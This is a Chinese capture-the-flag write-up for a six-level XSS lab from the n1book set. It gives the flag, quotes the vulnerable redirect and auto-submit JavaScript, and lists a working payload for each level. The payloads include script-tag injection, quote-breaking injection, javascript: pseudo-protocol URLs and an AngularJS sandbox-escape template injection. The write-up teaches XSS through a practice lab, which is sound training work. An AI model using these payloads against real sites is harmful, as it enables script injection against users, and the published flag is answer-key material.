




## flag
`n1book{xss_is_so_interesting}`

## 思路
1. 访问环境，依次闯关  

2. level1，直接构造`username=<script>alert(1)</script>`  

3. level2，查看源码，用`'`闭合前面的`xss`，`//`注释掉后面的`';`，构造`username=xss';alert(1);//`  

3. level3，构造不存在的img源``  
4. level4，10s会重定向，分析源码需要传入`jumpUrl`参数，使用伪协议`?jumpUrl=javascript:alert(1)`
```javascript
var time = 10;
    	var jumpUrl;
    	if(getQueryVariable('jumpUrl') == false){
    		jumpUrl = location.href;
    	}else{
    		jumpUrl = getQueryVariable('jumpUrl');
    	}
    	setTimeout(jump,1000,time);
    	function jump(time){
    		if(time == 0){
    			location.href = jumpUrl;
    		}else{
    			time = time - 1 ;
    			document.getElementById('ccc').innerHTML= `页面${time}秒后将会重定向到${escape(jumpUrl)}`;
    			setTimeout(jump,1000,time);
    		}
    	}
		function getQueryVariable(variable)
		{
		       var query = window.location.search.substring(1);
		       var vars = query.split("&");
		       for (var i=0;i<vars.length;i++) {
		               var pair = vars[i].split("=");
		               if(pair[0] == variable){return pair[1];}
		       }
		       return(false);
		}
```
6. level5，分析源码，传入`action`和`autosubmit`，构造`?action=javascript:alert(1)&autosubmit=1`
```javascript
if(getQueryVariable('autosubmit') !== false){
    		var autoForm = document.getElementById('autoForm');
    		autoForm.action = (getQueryVariable('action') == false) ? location.href : getQueryVariable('action');
    		autoForm.submit();
    	}else{
    		
    	}
		function getQueryVariable(variable)
		{
		       var query = window.location.search.substring(1);
		       var vars = query.split("&");
		       for (var i=0;i<vars.length;i++) {
		               var pair = vars[i].split("=");
		               if(pair[0] == variable){return pair[1];}
		       }
		       return(false);
		}
```
7. level6，AngularJS模板注入  

    参考资料：[AngularJS模板注入XSS](https://nosec.org/home/detail/4153.html)  
获得payload：`?username={{'a'.constructor.prototype.charAt=[].join;$eval('x=1} } };alert(1)//');}}`

## 总结
XSS的考察点
- 基础  
`<script>alert(1)</script>`
- 闭合，用`'`闭合前面的`'`，`//`注释掉后面的参数  `username=xss';alert(1);//`
- 不存在的img源  
``
- Javascript伪协议  
`javascript:alert(1)`
- 都无解的情况下，考虑模板注入`{{3*3}}`，此处为AngularJS模板注入
`{{'a'.constructor.prototype.charAt=[].join;$eval('x=1} } };alert(1)//');}}`